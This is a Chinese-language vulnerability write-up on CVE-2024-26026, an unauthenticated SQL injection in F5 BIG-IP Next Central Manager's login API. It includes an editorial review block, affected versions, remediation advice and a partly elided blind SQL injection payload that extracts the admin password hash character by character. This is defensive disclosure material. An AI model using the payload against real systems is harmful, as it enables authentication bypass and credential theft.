

# （CVE-2024-26026）F5 BIG-IP Next Central Manager SQL注入漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：F5 BIG-IP Next Central Manager
- 本文讨论：CVE-2024-26026
- 版本、权限与配置前提：20.0.1–20.1.0任何配置，无认证；20.2.0修复
- 资料类型：补库分析/外链PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 称脚本已验证可运行但无环境/结果；片段含...并非完整可运行payload
- F5公告仅建议搜索CVE，无直接链接
- 同/api/login但provider_name SQL注入不同于LDAP username OData，不应去重成一项

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 字符集/错误oracle、版本及外链脚本待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


一、漏洞简介
------------

2024 年 5 月 8 日，F5 发布安全公告，披露 BIG-IP Next Central Manager
API 存在 SQL 注入漏洞 CVE-2024-26026，与 CVE-2024-21793 同日由 Eclypsium
研究人员 Vladyslav Babkin 报告并公开 PoC。未认证的远程攻击者可通过向
Next Central Manager API 端点发送特制的 SQL 查询，执行恶意 SQL 语句，
泄露管理员密码 hash 等敏感信息。

Eclypsium 原文指出："In addition to an OData injection, there is a much
more dangerous SQL Injection vulnerability which appears in any device
configuration, and is positioned in such a way that a potential attacker
can leverage it directly to bypass authentication… In our current
research, we leverage it to get administrative user password hash."
（除 OData 注入外，还存在一个危险得多的 SQL 注入漏洞，它出现在任意设
备配置中，其位置使得潜在攻击者可直接利用它绕过认证……在当前研究中，
我们用它获取管理员用户的密码 hash。）

CVSS 3.1 7.5（HIGH）。影响 Next Central Manager 20.0.1 至 20.1.0，修复
于 20.2.0。

二、漏洞影响
------------

-   产品：F5 BIG-IP Next Central Manager
-   版本：**20.0.1 – 20.1.0**（修复版：20.2.0）
-   组件/攻击向量：Central Manager API（URI）`/api/login`，`provider_name`
    参数 SQL 注入
-   前提条件：无（未认证远程利用）；影响任意设备配置



*上图：Eclypsium 公布的攻击路径示意图（来源：Eclypsium 官方博客，已本
地化保存）。*

三、复现过程
------------

### 漏洞分析

与 21793 的 OData 注入点相同（`/api/login`），但此处注入发生在
`provider_name` 参数，请求体中的 `provider_name` 被直接拼入后端 SQL，
形成经典 SQL 注入。PoC 利用布尔盲注：`password like concat(<逐字符
chr() 编码>)` 为真时服务端返回特定错误信息（"root distinguished name
is required"），逐字符拖出 `mbiq_system.users` 表中管理员的密码 hash。
为绕过可能的过滤，PoC 用 `chr()` 编码逐字符构造 payload。

### PoC（来源：https://github.com/passwa11/CVE-2024-26026，仅限授权测试）

该仓库 `poc.py`（已验证为真实可运行的利用脚本）核心注入语句，用法：

```bash
python3 poc.py <target> [target_user]   # 默认拖取 admin 的密码 hash
```

关键注入点（`POST /api/login` JSON body，`provider_name` 字段）：

```
LDAPP'or' name = (select case when (password like concat(chr(97),chr(100),...))
then chr(76)||chr(111)||chr(99)||chr(97)||chr(108) else chr(76) end
from mbiq_system.users where username like concat(chr(97),chr(100),chr(109),chr(105),chr(110)) limit 1)
```

判定逻辑：当 `password like '<已猜前缀>%'` 为真时，响应 `message` 中包
含 "root distinguished name is required"，脚本据此逐字符还原 hash（字
符集为数字+大小写字母+`/.$`）。

四、修复建议
------------

-   升级到 BIG-IP Next Central Manager 20.2.0 及以上版本。
-   若无法立即 patch，将 Central Manager 管理访问限制在可信用户和设
    备、通过安全网络访问。
-   排查异常管理员账户及持久化痕迹（参考 CVE-2024-21793 条目中的隐藏账
    户风险）。

附录/参考链接
------------

-   F5 官方安全公告（my.f5.com，搜索 CVE-2024-26026）
-   Eclypsium 原始分析（含 PoC）：https://eclypsium.com/blog/big-vulnerabilities-in-next-gen-big-ip/
-   PoC 仓库：https://github.com/passwa11/CVE-2024-26026
-   NVD：https://nvd.nist.gov/vuln/detail/CVE-2024-26026
